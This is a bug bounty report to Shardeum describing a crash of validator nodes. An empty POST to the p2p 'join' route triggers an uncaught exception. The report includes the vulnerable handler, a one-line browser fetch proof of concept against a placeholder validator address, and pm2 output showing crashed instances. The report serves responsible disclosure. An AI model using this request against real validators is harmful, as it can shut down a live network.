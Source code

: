 
# Crashing Validators by triggering an uncaught exception in the p2p "join" route

Submitted on Tue Jul 09 2024 07:00:31 GMT-0400 (Atlantic Standard Time) by @infosec_us_team for [Boost | Shardeum: Core](https://immunefi.com/bounty/shardeum-core-boost/)

Report ID: #32993

Report type: Blockchain/DLT

Report severity: Critical

Target: https://github.com/shardeum/shardus-core/tree/dev

Impacts:
- Network not being able to confirm new transactions (total network shutdown)

## Description
## Brief/Intro

This report will describe how sending a maliciously crafted HTTP POST request to the vulnerable "join" endpoint crashes the validator due to an uncaught exception.

The most basic impact will be a total network shutdown by crashing all validators, rated as "Critical" in the **Impacts in Scope** table.

With more time to play with the codebase, we could try to control the entire consensus by shutting down all validators in Standby except ours, but "total network shutdown" is already at the highest severity level so we think is best to invest time doing more research in the codebase and providing as much value as possible to your team than escalating an attack vector that is already catastrophic for the network.

## Vulnerability Details

Below is the vulnerable function, as a reference:

```
const joinRoute: P2P.P2PTypes.Route<Handler> = {
  method: 'POST',
  name: 'join',
  handler: async (req, res) => {
    const joinRequest: JoinRequest = Utils.safeJsonParse(Utils.safeStringify(req.body))

    // ... more code below
   
```
> Snippet of code from: https://github.com/shardeum/shardus-core/blob/dev/src/p2p/Join/routes.ts#L65-L209

The endpoint accepts an HTTP POST request with a JSON object in the body that is parsed as a string, then converted to a JSON object, and assigned to a constant `joinRequest` of type **JoinRequest**.

Because the core logic of the *join* handler is not inside a `try-catch` block, when the body of the HTTP POST request is empty, the function crashes and the validator goes down under the status "**errored**.

> The status of each instance can be verified by running the command: `shardus list-net` or `shardus pm2 list`

## Observations in our tests

In our tests, we started 20 validators in a network with a configuration that requires/"desires" only 10 validators, to have some backups on standby, waiting to join.

After waiting a few minutes so they all sync, the column **Desired** of the monitor server at port **:3000** shows the value of `10`, as expected.
 
After crashing several validator instances by exploiting the attack described in this report, waiting a few minutes and crashing more validators, the column **Desired** goes from `10` to `0`, and the network shuts down itself.

## Impact Details

Ability to crash all validators, leading to the network not being able to confirm new transactions
        
## Proof of concept
## Proof of Concept

This is a very easy-to-reproduce proof of concept, we created a short javascript snippet that you can run even in your browser console, to exploit a victim validator.

```
fetch("http://VALIDATOR_EXTERNAL_IP:VALIDATOR_EXTERNAL_PORT/join/", options).then(response => { if (!response.ok) { throw new Error('Network response was not ok');}return response.json();}).then(data => {console.log('Success:', data);}).catch(error => {console.error('Error:', error);});
```

Replace VALIDATOR_EXTERNAL_IP and VALIDATOR_EXTERNAL_PORT with the IP and Port of the target.

After running the query with as many validators as desired, run the command `shardus pm2 list` to check their status.

They will displayed as **errored**.

If any of them is not, wait a few minutes and run it again.

Here's the output on our end:

```
┌─────┬────────────────────────────┬─────────────┬─────────┬─────────┬──────────┬────────┬──────┬───────────┬──────────┬──────────┬──────────┬──────────┐
│ id  │ name                       │ namespace   │ version │ mode    │ pid      │ uptime │ ↺    │ status    │ cpu      │ mem      │ user     │ watching │
├─────┼────────────────────────────┼─────────────┼─────────┼─────────┼──────────┼────────┼──────┼───────────┼──────────┼──────────┼──────────┼──────────┤
│ 1   │ "archive-server-1"         │ default     │ 3.4.21  │ fork    │ 1072795  │ 63m    │ 0    │ online    │ 0%       │ 90.5mb   │ z        │ disabled │
│ 2   │ "monitor-server"           │ default     │ 2.6.3   │ fork    │ 1072833  │ 63m    │ 0    │ online    │ 0%       │ 152.8mb  │ z        │ disabled │
│ 3   │ "shardus-instance-9001"    │ default     │ 1.11.4  │ fork    │ 0        │ 0      │ 0    │ errored   │ 0%       │ 0b       │ z        │ disabled │
│ 4   │ "shardus-instance-9002"    │ default     │ 1.11.4  │ fork    │ 0        │ 0      │ 0    │ errored   │ 0%       │ 0b       │ z        │ disabled │
│ 5   │ "shardus-instance-9003"    │ default     │ 1.11.4  │ fork    │ 0        │ 0      │ 0    │ errored   │ 0%       │ 0b       │ z        │ disabled │
│ 6   │ "shardus-instance-9004"    │ default     │ 1.11.4  │ fork    │ 0        │ 0      │ 0    │ errored   │ 0%       │ 0b       │ z        │ disabled │
│ 7   │ "shardus-instance-9005"    │ default     │ 1.11.4  │ fork    │ 0        │ 0      │ 0    │ errored   │ 0%       │ 0b       │ z        │ disabled │
│ 8   │ "shardus-instance-9006"    │ default     │ 1.11.4  │ fork    │ 0        │ 0      │ 0    │ errored   │ 0%       │ 0b       │ z        │ disabled │
│ 9   │ "shardus-instance-9007"    │ default     │ 1.11.4  │ fork    │ 0        │ 0      │ 0    │ errored   │ 0%       │ 0b       │ z        │ disabled │
│ 10  │ "shardus-instance-9008"    │ default     │ 1.11.4  │ fork    │ 1073149  │ 63m    │ 0    │ online    │ 0%       │ 165.3mb  │ z        │ disabled │
│ 11  │ "shardus-instance-9009"    │ default     │ 1.11.4  │ fork    │ 1073210  │ 63m    │ 0    │ online    │ 0%       │ 165.9mb  │ z        │ disabled │
│ 12  │ "shardus-instance-9010"    │ default     │ 1.11.4  │ fork    │ 1073260  │ 63m    │ 0    │ online    │ 0%       │ 166.5mb  │ z        │ disabled │
│ 13  │ "shardus-instance-9011"    │ default     │ 1.11.4  │ fork    │ 0        │ 0      │ 0    │ errored   │ 0%       │ 0b       │ z        │ disabled │
│ 14  │ "shardus-instance-9012"    │ default     │ 1.11.4  │ fork    │ 1073367  │ 63m    │ 0    │ online    │ 100%     │ 166.9mb  │ z        │ disabled │
│ 15  │ "shardus-instance-9013"    │ default     │ 1.11.4  │ fork    │ 0        │ 0      │ 0    │ errored   │ 0%       │ 0b       │ z        │ disabled │
│ 16  │ "shardus-instance-9014"    │ default     │ 1.11.4  │ fork    │ 1078370  │ 40m    │ 1    │ online    │ 0%       │ 141.8mb  │ z        │ disabled │
│ 17  │ "shardus-instance-9015"    │ default     │ 1.11.4  │ fork    │ 0        │ 0      │ 0    │ errored   │ 0%       │ 0b       │ z        │ disabled │
│ 18  │ "shardus-instance-9016"    │ default     │ 1.11.4  │ fork    │ 0        │ 0      │ 0    │ errored   │ 0%       │ 0b       │ z        │ disabled │
│ 19  │ "shardus-instance-9017"    │ default     │ 1.11.4  │ fork    │ 0        │ 0      │ 0    │ errored   │ 0%       │ 0b       │ z        │ disabled │
│ 20  │ "shardus-instance-9018"    │ default     │ 1.11.4  │ fork    │ 0        │ 0      │ 0    │ errored   │ 0%       │ 0b       │ z        │ disabled │
│ 21  │ "shardus-instance-9019"    │ default     │ 1.11.4  │ fork    │ 0        │ 0      │ 0    │ errored   │ 0%       │ 0b       │ z        │ disabled │
│ 22  │ "shardus-instance-9020"    │ default     │ 1.11.4  │ fork    │ 1079219  │ 38m    │ 1    │ online    │ 0%       │ 140.5mb  │ z        │ disabled │
└─────┴────────────────────────────┴─────────────┴─────────┴─────────┴──────────┴────────┴──────┴───────────┴──────────┴──────────┴──────────┴──────────┘
```